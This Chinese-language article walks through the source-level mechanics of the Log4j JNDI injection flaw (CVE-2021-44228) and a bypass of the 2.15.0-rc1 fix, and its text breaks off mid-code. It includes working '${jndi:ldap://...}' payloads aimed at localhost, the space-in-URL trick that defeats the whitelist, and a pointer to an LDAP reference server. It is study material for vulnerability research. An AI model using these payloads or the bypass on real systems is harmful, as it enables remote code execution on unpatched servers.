深入研究 Log4j 漏洞原理及利用

- - -

# 深入研究 Log4j 漏洞原理及利用

注：社区中详细讲述 Log4j 漏洞利用的文章较少，故写了本文仅供学习参考！

## 概述

Log4j 是一个用于 Java 应用程序的日志记录工具，它提供了灵活的日志记录配置和强大的日志记录功能。Log4j 允许开发人员在应用程序中记录不同级别的日志消息，并将这些消息输出到不同的目标（例如控制台、文件、数据库等）。

**Log4j 的主要组件和概念如下**：

日志记录器（Logger）：日志记录器是 Log4j 的核心组件。它负责接收应用程序中的日志消息并将其传递到适当的目标。每个日志记录器都有一个唯一的名称，开发人员可以根据需要创建多个日志记录器实例。

日志级别（Log Level）：Log4j 定义了不同的日志级别，用于标识日志消息的重要性和严重程度。常见的日志级别包括 DEBUG、INFO、WARN、ERROR 和 FATAL。开发人员可以根据应用程序的需求选择适当的日志级别。

Appender：Appender 用于确定日志消息的输出目标。Log4j 提供了多种类型的 Appender，例如 ConsoleAppender（将日志消息输出到控制台）、FileAppender（将日志消息输出到文件）、DatabaseAppender（将日志消息保存到数据库）等。开发人员可以根据需要配置和使用适当的 Appender。

日志布局（Layout）：日志布局决定了日志消息在输出目标中的格式。Log4j 提供了多种预定义的日志布局，例如简单的文本布局、HTML 布局、JSON 布局等。开发人员也可以自定义日志布局来满足特定的需求。

配置文件（Configuration File）：Log4j 的配置文件用于指定日志记录器、Appender、日志级别和日志布局等的配置信息。配置文件通常是一个 XML 文件或属性文件。通过配置文件，开发人员可以灵活地配置日志系统，包括定义日志记录器的层次结构、指定日志级别和输出目标等。

Log4j 提供了丰富的功能和灵活的配置选项，使开发人员能够根据应用程序的需求进行高度定制的日志记录。它已经成为 Java 应用程序中最受欢迎和广泛使用的日志记录框架之一。

## 安全问题

参考 apache log4j 官方文档：[https://logging.apache.org/log4j/2.x/security.html](https://logging.apache.org/log4j/2.x/security.html)  
特别关注 2021 年年底 CVE-2021-44228

## 经典漏洞分析 (CVE-2021-44228)

### 影响版本

2.0-beta9 到 2.14.1

### 测试环境

log4j-2.14.1 jdk1.8\_66  
maven 依赖：

```plain
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.1</version>
</dependency>
```

### 测试代码

```plain
package org.example;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class CVE202144228 {
    public static final Logger logger = LogManager.getLogger(CVE202144228.class);
    public static void main(String[] args) {
        String message = "${jndi:ldap://127.0.0.1:1389/0xrsto}";
        logger.error("error info:{}",message);
    }
}
```

### 函数调用栈

根据 JNDI 的前置知识，在 InitialContext 类的 lookup 方法下断点或者 NamingManager 类的 getObjectFactoryFromReference 方法下断点

```plain
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
lookup:172, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:132, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
toSerializable:344, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:540, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:498, LoggerConfig (org.apache.logging.log4j.core.config)
log:481, LoggerConfig (org.apache.logging.log4j.core.config)
log:456, LoggerConfig (org.apache.logging.log4j.core.config)
log:63, DefaultReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2205, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2159, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2142, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2034, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1899, AbstractLogger (org.apache.logging.log4j.spi)
error:866, AbstractLogger (org.apache.logging.log4j.spi)
main:10, CVE202144228 (org.example)
```

### 详细分析

logger 是一个 Logger 对象，调用 error 方法，由于 Logger 中没有 error 方法，会调用其父类 AbstractLogger 中的 error 方法

```plain
public void error(final String message, final Object p0) {
    logIfEnabled(FQCN, Level.ERROR, null, message, p0);
}
```

继续调用父类 AbstractLogger 中的 logIfEnabled 方法，这里设置 Level(日志级别) 为 ERROR

```plain
@Override
public void logIfEnabled(final String fqcn, final Level level, final Marker marker, final String message,
        final Object p0) {
    // 检查是否启用了指定的日志级别、标记和消息
    if (isEnabled(level, marker, message, p0)) {
        logMessage(fqcn, level, marker, message, p0);
    }
}
```

在 logMessage 方法中使用 messageFactory 创建一个 Message 对象，该对象表示包含消息和参数的格式化消息  
中间的过程省略，来到 Logger 的 log 方法

```plain
@Override
protected void log(final Level level, final Marker marker, final String fqcn, final StackTraceElement location,
    final Message message, final Throwable throwable) {
    // 获取配置的可靠性策略
    final ReliabilityStrategy strategy = privateConfig.loggerConfig.getReliabilityStrategy();
    // 检查该策略是否是 LocationAwareReliabilityStrategy 的实例
    if (strategy instanceof LocationAwareReliabilityStrategy) {
        ((LocationAwareReliabilityStrategy) strategy).log(this, getName(), fqcn, location, marker, level,
            message, throwable);
    } else {
        strategy.log(this, getName(), fqcn, marker, level, message, throwable);
    }
}
```

这些都是 log4j 底层下的东西，继续往后分析，跳过中间步骤  
来到 PatternLayout 类的 toSerializable 方法

```plain
@Override
public StringBuilder toSerializable(final LogEvent event, final StringBuilder buffer) {
    // 这里的 formatters 是一个 PatternFormatter 数组
    // 每个 PatternFormatter 的 converter 属性都是一个继承 LogEventPatternConverter 的 PatternConverter
    // 这些 converter 的作用是将不同的信息添加到最终的日志信息中
    final int len = formatters.length;
    for (int i = 0; i < len; i++) {
        formatters[i].format(event, buffer);
    }
    if (replace != null) { // creates temporary objects
        String str = buffer.toString();
        str = replace.format(str);
        buffer.setLength(0);
        buffer.append(str);
    }
    return buffer;
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120131941-6844040a-8764-1.png)

代码断在 i 为 8 的时候，formatters\[8\]是一个 MessagePatternConverter 对象，调用其 format 方法

```plain
public void format(final LogEvent event, final StringBuilder buf) {
    if (skipFormattingInfo) {
        // 进入这里
        converter.format(event, buf);
    } else {
        formatWithInfo(event, buf);
    }
}
```

这里的 converter 是 MessagePatternConverter，调用其 format 方法

```plain
@Override
public void format(final LogEvent event, final StringBuilder toAppendTo) {

    final Message msg = event.getMessage();
    // 如果msg实现了StringBuilderFormattable接口，进入这里
    if (msg instanceof StringBuilderFormattable) {
        // textRenderer为null，这里直接为toAppendTo
        final boolean doRender = textRenderer != null;
        final StringBuilder workingBuilder = doRender ? new StringBuilder(80) : toAppendTo;

        // 获取初始长度作为偏移量
        final int offset = workingBuilder.length();
        // 如果msg实现了MultiFormatStringBuilderFormattable接口
        // 不管进入哪个分支，都需要进行formatTo方法进行格式化，作用是将格式化的内容添加到workingBuilder中
        if (msg instanceof MultiFormatStringBuilderFormattable) {
            ((MultiFormatStringBuilderFormattable) msg).formatTo(formats, workingBuilder);
        } else {
            // 进入这里
            ((StringBuilderFormattable) msg).formatTo(workingBuilder);
        }

        // TODO can we optimize this?
        if (config != null && !noLookups) {
            for (int i = offset; i < workingBuilder.length() - 1; i++) {
                // 检查workingBuilder中是否存在${}格式的占位符
                // 得到i为64
                if (workingBuilder.charAt(i) == '$' && workingBuilder.charAt(i + 1) == '{') {
                    // 提取offset到结尾的部分，相当于获取formatTo加上去的内容
                    final String value = workingBuilder.substring(offset, workingBuilder.length());
                    workingBuilder.setLength(offset);

                    // 使用配置对象中的StrSubstitutor替换占位符为相应的值
                    workingBuilder.append(config.getStrSubstitutor().replace(event, value));
                }
            }
        }
        // 如果需要渲染，则使用textRenderer对workingBuilder进行渲染，并将结果追加到toAppendTo中
        if (doRender) {
            textRenderer.render(workingBuilder, toAppendTo);
        }
        return;
    }
    // 后面可以忽略
    if (msg != null) {
        String result;
        // 如果消息实现了MultiformatMessage接口，调用getFormattedMessage方法获取格式化后的消息
        if (msg instanceof MultiformatMessage) {
            result = ((MultiformatMessage) msg).getFormattedMessage(formats);
        } else {
            result = msg.getFormattedMessage();
        }
        if (result != null) {
            // 使用config中的StrSubstitutor替换占位符为相应的值
            toAppendTo.append(config != null && result.contains("${")
                    ? config.getStrSubstitutor().replace(event, result) : result);
        } else {
            toAppendTo.append("null");
        }
    }
}
```

在执行 formatTo 方法之前  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231120132003-759c6d36-8764-1.png)  
执行完 formatTo 方法之后  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231120132020-7f7e8bb8-8764-1.png)  
也就是说 msg 的 formatTo 方法是一个格式化的过程，将格式化的内容添加到 workingBuilder 中，也就是将源代码中的 message 替换{}  
接下来进入 for 循环，这里主要判断在 workingBuilder 中是否存在${}格式的占位符，如果存在，就调用 config.getStrSubstitutor().replace(event, value) 方法进行替换  
首先进入 config.getStrSubstitutor()，进入的是 AbstractConfiguration 类

```plain
@Override
public StrSubstitutor getStrSubstitutor() {
    return subst;
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120134117-6d124e3a-8767-1.png)  
进入 StrSubstitutor 类的 replace 方法

```plain
public String replace(final LogEvent event, final String source) {
    if (source == null) {
        return null;
    }
    // 创建一个 StringBuilder 对象 buf，并将 source 作为初始内容
    final StringBuilder buf = new StringBuilder(source);
    // 调用 substitute 方法进行替换操作，如果没有进行替换，则返回原始的 source 字符串
    if (!substitute(event, buf, 0, source.length())) {
        return source;
    }
    return buf.toString();
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120132043-8dc2d04e-8764-1.png)  
跳过中间的步骤来到 StrSubstitutor 类的 substitute 方法，这个方法用于多级插值的递归处理程序。这是主要的插值方法，用于解析传入文本中包含的所有变量引用的值。  
这里有一个大的 while 循环，pos 从 0 开始，从左到右遍历 buf，chars 的值为“error info:${jndi:ldap://127.0.0.1:1389/0xrsto}”

```plain
while (pos < bufEnd) {
    // 前缀匹配
    final int startMatchLen = prefixMatcher.isMatch(chars, pos, offset, bufEnd);
    if (startMatchLen == 0) {
        pos++;
    } else // found variable start marker
    if (pos > offset && chars[pos - 1] == escape) {
        // escaped
        buf.deleteCharAt(pos - 1);
        chars = getChars(buf);
        lengthChange--;
        altered = true;
        bufEnd--;
    } else {
        // 目标在这
        ....
    }
    ...
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120132102-98872656-8764-1.png)  
当 pos 为 11 的时候能够满足两个 if 条件 (存在"${")，进入 else  
else 里面又存在一个 while 循环

```plain
// find suffix
final int startPos = pos;
pos += startMatchLen;
int endMatchLen = 0;
int nestedVarCount = 0;
while (pos < bufEnd) {
    if (substitutionInVariablesEnabled
            && (endMatchLen = prefixMatcher.isMatch(chars, pos, offset, bufEnd)) != 0) {
        // found a nested variable start
        nestedVarCount++;
        pos += endMatchLen;
        continue;
    }

    endMatchLen = suffixMatcher.isMatch(chars, pos, offset, bufEnd);
    if (endMatchLen == 0) {
        pos++;
    } else {
        // 目标在这
        .....
    }
    ....
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120132119-a322e898-8764-1.png)  
这里是寻找后缀，即“}”，然后提取出中间的字符串“jndi:ldap://127.0.0.1:1389/0xrsto”，进入 else 中，进入这里  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231120132141-afe43c3a-8764-1.png)  
进入 StrSubstitutor 类 resolveVariable 方法

```plain
protected String resolveVariable(final LogEvent event, final String variableName, final StringBuilder buf,
                                    final int startPos, final int endPos) {
    // 获取变量解析器
    final StrLookup resolver = getVariableResolver();
    if (resolver == null) {
        return null;
    }
    return resolver.lookup(event, variableName);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120132210-c16dcbb0-8764-1.png)

这个方法用于解析变量值的内部方法，进入 Interpolator 中的 lookup 方法

```plain
@Override
public String lookup(final LogEvent event, String var) {
    if (var == null) {
        return null;
    }
    // 查找：分隔符的位置，PREFIX_SEPARATOR 为：
    final int prefixPos = var.indexOf(PREFIX_SEPARATOR);
    // 存在：
    if (prefixPos >= 0) {
        // 获取前缀
        final String prefix = var.substring(0, prefixPos).toLowerCase(Locale.US);
        // 获取后缀
        final String name = var.substring(prefixPos + 1);
        // 根据前缀在 map 中获取对应的 StrLookup 对象
        final StrLookup lookup = strLookupMap.get(prefix);
        if (lookup instanceof ConfigurationAware) {
            ((ConfigurationAware) lookup).setConfiguration(configuration);
        }
        String value = null;
        //存在 lookup
        if (lookup != null) {
            // 关键在这里
            value = event == null ? lookup.lookup(name) : lookup.lookup(event, name);
        }

        if (value != null) {
            return value;
        }
        var = var.substring(prefixPos + 1);
    }
    if (defaultLookup != null) {
        return event == null ? defaultLookup.lookup(var) : defaultLookup.lookup(event, var);
    }
    return null;
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120132230-cd17fe5e-8764-1.png)  
在 strLookupMap 中键名为"jndi"的值为 JndiLookup 对象，进入 JndiLookup 类的 lookup 方法

```plain
@Override
public String lookup(final LogEvent event, final String key) {
    if (key == null) {
        return null;
    }
    final String jndiName = convertJndiName(key);
    try (final JndiManager jndiManager = JndiManager.getDefaultManager()) {
        // 调用 jndiManager.lookup(jndiName) 方法获取 JNDI 对象，然后通过 toString 方法输出
        return Objects.toString(jndiManager.lookup(jndiName), null);
    } catch (final NamingException e) {
        LOGGER.warn(LOOKUP, "Error looking up JNDI resource [{}].", jndiName, e);
        return null;
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120132249-d884e518-8764-1.png)  
进入 JndiManager 类的 lookup 方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231120132307-e377f7a8-8764-1.png)  
这里的 context 是 InitialContext 对象，调用其 lookup 方法，下面就是 JNDI 中的链了

### 代码关键点

三个关键点：

1.  在 PatternLayout 类的 toSerializable 方法中，调用 MessagePatternConverter 的 format 方法，这个方法是一个格式化的过程，将格式化的内容添加到 workingBuilder 中，也就是将源代码中的 message 替换{}，同时匹配字符串中是否存在${}占位符，并使用 config.getStrSubstitutor().replace 进行替换
2.  在 StrSubstitutor 类的 substitute 方法中，提取${}中的内容，并调用 StrSubstitutor 类 resolveVariable 方法对其解析
3.  在 Interpolator 类的 lookup 方法中，根据前缀在 map 中获取对应的 StrLookup 对象，然后调用其 lookup 方法，这里的前缀为 jndi，所以获取的是 JndiLookup 对象，然后调用其 lookup 方法，这个方法调用了 jndiManager.lookup 方法

### 试试 info 方法

在 StandardLevel 类中定义了日志的级别，数值越低，优先级越高

```plain
public enum StandardLevel {

    /**
     * No events will be logged.
     */
    OFF(0),
    /**
     * A severe error that will prevent the application from continuing.
     */
    FATAL(100),
    /**
     * An error in the application, possibly recoverable.
     */
    ERROR(200),
    /**
     * An event that might possible lead to an error.
     */
    WARN(300),
    /**
     * An event for informational purposes.
     */
    INFO(400),
    /**
     * A general debugging event.
     */
    DEBUG(500),
    /**
     * A fine-grained debug message, typically capturing the flow through the application.
     */
    TRACE(600),
    /**
     * All events should be logged.
     */
    ALL(Integer.MAX_VALUE);
    ....
}
```

**分析**：  
首先进入 AbstractLogger 类的 logIfEnabled 方法，这个方法

```plain
@Override
public void logIfEnabled(final String fqcn, final Level level, final Marker marker, final String message,
        final Object p0) {
    // 必须过 if 判断
    if (isEnabled(level, marker, message, p0)) {
        logMessage(fqcn, level, marker, message, p0);
    }
}
```

跳过中间一步来到 Logger 类的 filter 方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231120132621-572936da-8765-1.png)  
很显然返回的是 false，从而在 logIfEnabled 中不会调用 logMessage 方法

问题：intLevel 从哪里来的？  
这里的 intLevel 是为 200，默认等于 ERROR 等级，也就是说，**在默认情况下，等级值小于 ERROR 等级的都会造成 RCE**

当然这个也能从配置文件中来  
log4j 的默认配置文件如下：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="WARN">
  <Appenders>
    <Console name="Console" target="SYSTEM_OUT">
      <PatternLayout pattern="%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n"/>
    </Console>
  </Appenders>
  <Loggers>
    <Root level="error">
      <AppenderRef ref="Console"/>
    </Root>
  </Loggers>
</Configuration>
```

现在将 Root 的 level 改为 info

```plain
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="WARN">
  <Appenders>
    <Console name="Console" target="SYSTEM_OUT">
      <PatternLayout pattern="%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n"/>
    </Console>
  </Appenders>
  <Loggers>
    <Root level="info">
      <AppenderRef ref="Console"/>
    </Root>
  </Loggers>
</Configuration>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120132643-63e98f1e-8765-1.png)  
能够成功过这个条件，从而导致 RCE  
至于配置文件的加载来自于 LogManager.getLogger(...)，这里不再赘述

## log4j-2.15.0-rc1 分析

### 环境

[https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1)  
下载源码进行编译，测试中导入 log4j-api-2.15.0 和 log4j-core-2.15.0 即可

### 修复

2.15.0-rc1 版本对前面存在的问题进行了修复，主要有以下：  
**第一**：  
对应前一节代码关键点的第一点，在 toSerializable 方法处调用的不再是 MessagePatternConverter 的 format 方法，而是 SimpleMessagePatternConverter 的 format 方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231120132710-73e2ac66-8765-1.png)

查看 SimpleMessagePatternConverter 的 format 方法：

```plain
private static final class SimpleMessagePatternConverter extends MessagePatternConverter {
    private static final MessagePatternConverter INSTANCE = new SimpleMessagePatternConverter();

    private SimpleMessagePatternConverter() {
        super(null);
    }

    public void format(final LogEvent event, final StringBuilder toAppendTo) {
        // 直接格式化后结束
        Message msg = event.getMessage();
        if (msg instanceof StringBuilderFormattable) {
            ((StringBuilderFormattable)msg).formatTo(toAppendTo);
        } else if (msg != null) {
            toAppendTo.append(msg.getFormattedMessage());
        }

    }
}
```

这里的 SimpleMessagePatternConverter 中的 format 方法没有解析"${"，而是将字符格式化后就结束，所以也没有后面的调用步骤

另外，对于 MessagePatternConverter 类创建了以下四个内部类：

-   SimpleMessagePatternConverter
-   FormattedMessagePatternConverter
-   LookupMessagePatternConverter
-   RenderingPatternConverter

默认情况下是会使用 SimpleMessagePatternConverter 进行处理，但是对于不同配置的情况下会使用对应配置的内部类进行处理

针对于 rc1 绕过的一点就来自于这里，LookupMessagePatternConverter 会对"${"进行处理，而在配置文件中开启 lookups 就会使用 LookupMessagePatternConverter 内部类，这里后面会提到。而在这一版本中，lookups 默认是不开启的，这也是与之前版本不同的一点

**总结下来：第一点更新就是对 MessagePatternConverter 类进行了处理，并修改了 format 的逻辑，同时移除了从 Properties 中获取 Lookup 配置的选项，默认不开启 lookup 功能**

**第二**：  
对应前一节代码关键点的第一点，这里在 JndiManager 类的 lookup 方法中进行了白名单限制

```plain
public synchronized <T> T lookup(final String name) throws NamingException {
    try {
        URI uri = new URI(name);
        if (uri.getScheme() != null) {
            // 检查协议是否在允许的白名单列表
            if (!this.allowedProtocols.contains(uri.getScheme().toLowerCase(Locale.ROOT))) {
                LOGGER.warn("Log4j JNDI does not allow protocol {}", uri.getScheme());
                return null;
            }
            // 检查协议是否是 LDAP 或 LDAPS
            if ("ldap".equalsIgnoreCase(uri.getScheme()) || "ldaps".equalsIgnoreCase(uri.getScheme())) {
                // 检查主机名是否在允许的白名单列表 allowedHosts 中
                if (!this.allowedHosts.contains(uri.getHost())) {
                    LOGGER.warn("Attempt to access ldap server not in allowed list");
                    return null;
                }
                // 获取指定名称的 JNDI 属性
                Attributes attributes = this.context.getAttributes(name);
                if (attributes != null) {
                    Map<String, Attribute> attributeMap = new HashMap();
                    NamingEnumeration<? extends Attribute> enumeration = attributes.getAll();
                    // 获取属性的枚举，并将属性及其 ID 存储到 attributeMap 中
                    Attribute classNameAttr;
                    while(enumeration.hasMore()) {
                        classNameAttr = (Attribute)enumeration.next();
                        attributeMap.put(classNameAttr.getID(), classNameAttr);
                    }
                    // 从 attributeMap 中获取名为 CLASS_NAME 的属性
                    classNameAttr = (Attribute)attributeMap.get("javaClassName");
                    // 检查是否存在名为 SERIALIZED_DATA 的属性
                    if (attributeMap.get("javaSerializedData") != null) {
                        if (classNameAttr == null) {
                            LOGGER.warn("No class name provided for {}", name);
                            return null;
                        }

                        String className = classNameAttr.get().toString();
                        // 检查 className 是否在允许的白名单列表 allowedClasses 中
                        if (!this.allowedClasses.contains(className)) {
                            LOGGER.warn("Deserialization of {} is not allowed", className);
                            return null;
                        }
                    }
                    // // 如果存在名为 REFERENCE_ADDRESS 或 OBJECT_FACTORY 的属性，则记录警告日志并返回null  
                    else if (attributeMap.get("javaReferenceAddress") != null || attributeMap.get("javaFactory") != null) {
                        LOGGER.warn("Referenceable class is not allowed for {}", name);
                        return null;
                    }
                }
            }
        }
    }
    // // 捕获 URISyntaxException 异常 
    catch (URISyntaxException var8) {
    }
    // 如果没有触发任何警告或异常，执行JNDI查找操作
    return this.context.lookup(name);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120132748-8a835060-8765-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231120132804-94529d80-8765-1.png)

而这里 jndiManager 对象的构造来自于 JndiLookup 类中的 lookup 方法中的如下代码：

```plain
JndiManager jndiManager = JndiManager.getDefaultManager();
```

进入 JndiManager 类的 getDefaultManager

```plain
public static JndiManager getDefaultManager() {
    return (JndiManager)getManager(JndiManager.class.getName(), FACTORY, (Object)null);
}
```

由于 JndiManager 中没有定义 getManager，调用父类 AbstractManager 的 getManager 方法，观察下面这句

```plain
manager = (AbstractManager)factory.createManager(name, data);
```

此时的 factory 是 JndiManagerFactory(JndiManager 的内部类)，进入其 createManager 方法

```plain
public JndiManager createManager(final String name, final Properties data) {
    String hosts = data != null ? data.getProperty("allowedLdapHosts") : null;
    String classes = data != null ? data.getProperty("allowedLdapClasses") : null;
    String protocols = data != null ? data.getProperty("allowedJndiProtocols") : null;
    List<String> allowedHosts = new ArrayList();
    List<String> allowedClasses = new ArrayList();
    List<String> allowedProtocols = new ArrayList();
    // 这里就是加入的白名单操作
    this.addAll(hosts, allowedHosts, JndiManager.permanentAllowedHosts, "allowedLdapHosts", data);
    this.addAll(classes, allowedClasses, JndiManager.permanentAllowedClasses, "allowedLdapClasses", data);
    this.addAll(protocols, allowedProtocols, JndiManager.permanentAllowedProtocols, "allowedJndiProtocols", data);

    try {
        // 创建一个JndiManager，使用了InitialDirContext
        return new JndiManager(name, new InitialDirContext(data), allowedHosts, allowedClasses, allowedProtocols);
    } catch (NamingException var10) {
        JndiManager.LOGGER.error("Error creating JNDI InitialContext.", var10);
        return null;
    }
}
```

**总结：JndiManager 实例是由 JndiManagerFactory 来创建的，并且不再使用 InitialContext，而是使用 InitialDirContext。另外，在 lookup 方法中还加入的白名单逻辑判断**

### 绕过

针对以上两点改进，同样存在神奇的绕过方式  
**对于第一点**，可以开启 lookups 功能，让其使用 LookupMessagePatternConverter 进行处理，这里的 lookups 默认是不开启的，所以需要手动开启  
开启方式参考：[https://logging.apache.org/log4j/2.x/manual/configuration.html#enabling-message-pattern-lookups](https://logging.apache.org/log4j/2.x/manual/configuration.html#enabling-message-pattern-lookups)

log4j2 配置文件如下：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="warn" name="MyApp" packages="">
    <appenders>
        <console name="STDOUT" target="SYSTEM_OUT">
            <PatternLayout pattern="%msg{lookups}%n"/>
        </console>
    </appenders>
    <Loggers>
        <Root level="error">
            <AppenderRef ref="STDOUT"/>
        </Root>
    </Loggers>
</Configuration>
```

**对于第二点**，在 JndiManager 类的 lookup 方法中，最后捕获 URISyntaxException 异常的 catch 块没有进行如何处理及返回，这样还是能够执行到代码的最后一行  
因此，只要触发 URISyntaxException 异常，就可以绕过，触发漏洞。触发异常的方式是在 URL 中加入一个空格

### 测试代码：

```plain
package org.example;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class RC1Bypass {
    public static final Logger logger = LogManager.getLogger(RC1Bypass.class);

    public static void main(String[] args) {
        logger.error("${jndi:ldap://127.0.0.1:9999/ test}");

    }
}
```

并且构建一个 LDAP reference 服务，监听 9999 端口，具体代码参考 marshalsec：[https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java)

### 函数调用栈

```plain
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
lookup:257, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replaceIn:890, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:186, MessagePatternConverter$LookupMessagePatternConverter (org.apache.logging.log4j.core.pattern)
toSerializable:343, PatternLayout$NoFormatPatternSerializer (org.apache.logging.log4j.core.layout)
toText:241, PatternLayout (org.apache.logging.log4j.core.layout)
encode:226, PatternLayout (org.apache.logging.log4j.core.layout)
encode:60, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:161, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:134, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:125, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:89, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:542, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:500, LoggerConfig (org.apache.logging.log4j.core.config)
log:483, LoggerConfig (org.apache.logging.log4j.core.config)
log:417, LoggerConfig (org.apache.logging.log4j.core.config)
log:82, AwaitCompletionReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2205, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2159, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2142, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2017, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1983, AbstractLogger (org.apache.logging.log4j.spi)
error:740, AbstractLogger (org.apache.logging.log4j.spi)
main:10, RC1Bypass (org.example)
```

### 绕过分析

**第一**：  
首先在准备阶段，需要获取配置文件中的信息

```plain
public static final Logger logger = LogManager.getLogger(RC1Bypass.class);
```

跳过中间步骤，来到

```plain
public static MessagePatternConverter newInstance(final Configuration config, final String[] options) {
    // 判断是否开启 lookups
    boolean lookups = loadLookups(options);
    String[] formats = withoutLookupOptions(options);
    TextRenderer textRenderer = loadMessageRenderer(formats);
    MessagePatternConverter result = formats != null && formats.length != 0 ? new FormattedMessagePatternConverter(formats) : MessagePatternConverter.SimpleMessagePatternConverter.INSTANCE;
    // 如果开启，就新建 LookupMessagePatternConverter
    if (lookups && config != null) {
        result = new LookupMessagePatternConverter((MessagePatternConverter)result, config);
    }

    if (textRenderer != null) {
        result = new RenderingPatternConverter((MessagePatternConverter)result, textRenderer);
    }

    return (MessagePatternConverter)result;
}
```

在 MessagePatternConverter 类的 loadLookups 中判断是否开启 lookups

```plain
private static boolean loadLookups(final String[] options) {
    if (options != null) {
        String[] var1 = options;
        int var2 = options.length;

        for(int var3 = 0; var3 < var2; ++var3) {
            String option = var1[var3];
            // 这里
